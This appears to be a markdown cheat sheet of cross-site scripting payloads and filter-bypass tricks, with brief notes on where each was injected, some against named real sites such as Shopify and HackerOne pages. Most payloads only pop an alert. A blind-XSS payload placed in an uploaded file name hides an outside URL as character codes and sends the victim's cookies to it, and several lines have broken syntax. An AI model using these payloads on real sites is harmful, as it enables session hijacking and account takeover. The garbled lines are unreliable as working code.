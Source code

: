 Bypassing <> symbols 

**”/>&_lt;_script>alert(1)&_lt;/scr_ipt>”/>**

================================================================================================================

Blind XSS in File Upload

**\"><img src=1 onerror=\"url=String104,116,116,112,115,58,47,47,103,97,116,111,108,111,117,99,111,46,48,48,48,119,101,98,104,111,115,116,97,112,112,46,99,111,109,47,99,115,109,111,110,101,121,47,105,110,100,101,120,46,112,104,112,63,116,111,107,101,110,115,61+encodeURIComponent(document['cookie']);xhttp=&#x20new&#x20XMLHttpRequest();xhttp'GET',url,true;xhttp'send';**

capture the request and change the filename like this 

================================================================================================================

First name and Last name 

divide the payload and store in each field

***(first name '<img src=x' and last name'onerror=alert(1)>')***

================================================================================================================\
Adding Payload in menu items name

`"><img src="x" onerror="alert(document.cookie)">`

================================================================================================================
rename the file using js or html 

`<h1><b><i><u>MikeIsAStar`

================================================================================================================

XSS  through CSS injection   using **utm_source** parameter

**<https://www.shopify.com/markets?utm_source=INJECTION%22%20style=%22animation-name:swoop-up%22%20onanimationstart=%22alert(document.domain>****)**      

================================================================================================================
in a particular application contains url field

- this payload used to trigger alert :   decoded version   %2f%2f@  => //@    
- //   commments the rest of the code in the ulr and js
- so the application create alert box.

`javascript://alert(document.domain);%2f%2f@`

================================================================================================================
enter this payload into Name parameter  

**</script><svg onload=alert()>**

================================================================================================================
CSP implemented but old browsers like IE ,MS Edge render this

`https://www.hackerone.com/careers?lever-#aaa"><script src="https://app-sj17.marketo.com/index.php/form/getForm?callback=alert"></script>`

================================================================================================================

excessive entities overwhelm sanitization processes or result in **partial sanitization**.

`<img src=1111111><img src=1111111><a href="javascript:alert&#40/1/&#41">axxx</a><svg></svg><img src=1>`

================================================================================================================

- // comments the further code.so the application render only this javascript:alert(1)
- this leads to make a popup in the window

`javascript:alert(1)//https://dqdqdqdqdq.myshopify.com`

================================================================================================================


\"><img src=1 onerror=\"alert('XSS')\">